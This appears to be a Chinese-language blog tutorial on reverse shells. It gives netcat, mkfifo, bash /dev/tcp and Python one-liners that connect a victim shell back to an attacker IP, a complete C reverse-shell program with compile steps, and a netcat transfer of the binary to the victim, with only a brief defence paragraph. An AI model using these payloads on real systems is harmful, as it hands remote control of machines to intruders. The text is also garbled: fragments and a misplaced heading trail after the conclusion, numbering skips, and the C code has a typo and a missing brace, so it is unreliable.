\newpage
\subsection{反向 shell}

### 什么是反向 shell？

{height=400px}

反向 shell，也常被称为回连 shell（connect-back shell），是一种从目标主机发起的远程 shell：它回连到攻击者机器，并在攻击者机器上生成目标的 shell。这通常用于漏洞利用过程中，以获取对远程机器的控制权。

反向 shell 可以利用常见的出站端口，例如 80、443、8080 端口等。

当目标受害主机通过防火墙阻止来自某个端口的入站连接时，通常会使用反向 shell。为了绕过这一防火墙限制，红队成员和渗透测试人员会使用反向 shell。



但这里有个注意事项：这会暴露攻击者的控制服务器，而且痕迹可能被目标网络的网络安全监控服务捕获。

获取反向 shell 有三个步骤。

首先，攻击者利用目标系统或网络上的漏洞，获得执行代码的能力。

然后，攻击者在自己机器上设置监听器。

接着，攻击者将反向 shell 注入存在漏洞的系统，以利用该漏洞。

{width="80%"}

还有另一个注意事项。在真实的网络攻击中，反向 shell 也可以通过社会工程学获得。例如，通过钓鱼邮件或恶意网站安装到本地工作站上的一段恶意软件，可能会主动向命令服务器发起出站连接，从而为黑客提供反向 shell 能力。

本文的目的不是利用目标主机或网络中的漏洞，而是找到可以被利用来执行代码的漏洞。

取决于受害者上安装的是哪个系统、运行着哪些服务，反向 shell 也会不同，可能是 PHP、Python、JSP 等。

### 监听器

为简单起见，在本例中，受害者允许在任何端口上发起出站连接（iptables 防火墙的默认规则）。我们的例子使用 4444 作为监听端口。你可以改成自己喜欢的端口。

```bash
nc -lvp 4444
```

其中，`-l` 表示监听（listen），`-v` 表示详细输出（verbose），`-p` 表示在所有接口上监听 4444 端口。你还可以加上 `-n`，表示只使用数字形式的 IP 地址，而不做 DNS 解析。



### 运行反向 shell（示例）

同样为简单起见，我们的示例中目标是一台 Linux 机器。

#### 1. netcat

```bash
nc -e /bin/sh 10.9.1.6 4444
```

其中 10.9.1.6 是攻击者机器的 IP，4444 是监听端口。

{width="80%"}

较新的 Linux 机器默认使用传统 netcat，且已禁用 GAPING_SECURITY_HOLE，这意味着你没有 netcat 的 `-e` 选项。

在这种情况下，在受害机器上运行：

```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

{width="80%"}

这里，我先用 mkfifo 命令创建了一个名为 p 的命名管道（又称 FIFO）。mkfifo 命令会在文件系统中创建对象，这里把它用作类型为 p 的“后向管道”（backpipe），也就是命名管道。这个 FIFO 用于把数据回送到我们 shell 的输入端。我把后向管道建在 /tmp 下，因为几乎任何账户都被允许在那里写入。

#### 3. bash

```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

{width="80%"}

#### 4. python

要用 Python 创建一个半交互式 shell，运行：

```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

{width="80%"}

更多示例：[GitHub 反向 shell 速查表](https://github.com/swisskyrepo/PayloadsAllTheThings)。

### 用 C 创建反向 shell

这是我最喜欢的部分。由于我是带着编程背景进入网络安全领域的，我喜欢做“重复造轮子”的事情，这有助于我在学习过程中理解一些东西。

正如我前面所说，我们将编写一个运行在 Linux（目标机器）上的反向 shell。

创建文件 shell.c：

```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;

```

我们来编译它：

```bash
gcc -o shell shell.c -w
```

{width="80%"}

如果要为 32 位 Linux 编译，运行：`gcc -o shell -m32 shell.c -w`

接下来，我们把文件传输到受害者的机器上。文件传输被认为是后渗透阶段最重要的步骤之一（正如我前面所说，我们不讨论漏洞利用阶段）。

我们将使用被称为黑客瑞士军刀的工具——netcat。

在受害机器上运行：

```bash
nc -lvp 4444 > shell
```

在攻击者机器上运行：

```bash
nc 10.9.1.19 4444 -w 3 < shell
```

{width="80%"}

检查：

```bash
./shell
```

{width="80%"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

源代码见 GitHub。

### 防御措施

遗憾的是，没有办法完全阻止反向 shell。除非你是刻意使用反向 shell 进行远程管理，否则任何反向 shell 连接都可能是恶意的。为限制被利用的可能，你可以锁定出站连接，只允许所需服务访问特定的远程 IP 地址和端口。这可以通过沙箱化，或在最小化容器中运行服务器来实现。

首先，我们来讨论反向 shell（reverse shell）这一概念，因为它是恶意软件开发中非常重要的一环。

监听器可以是任何能够打开 TCP/UDP 连接或套接字的程序/工具。大多数情况下，我喜欢使用 nc 或 netcat 工具。

运行：

#### 2. 不带 -e 的 netcat

这在较老的基于 Debian 的 Linux 发行版上不起作用。

运行：
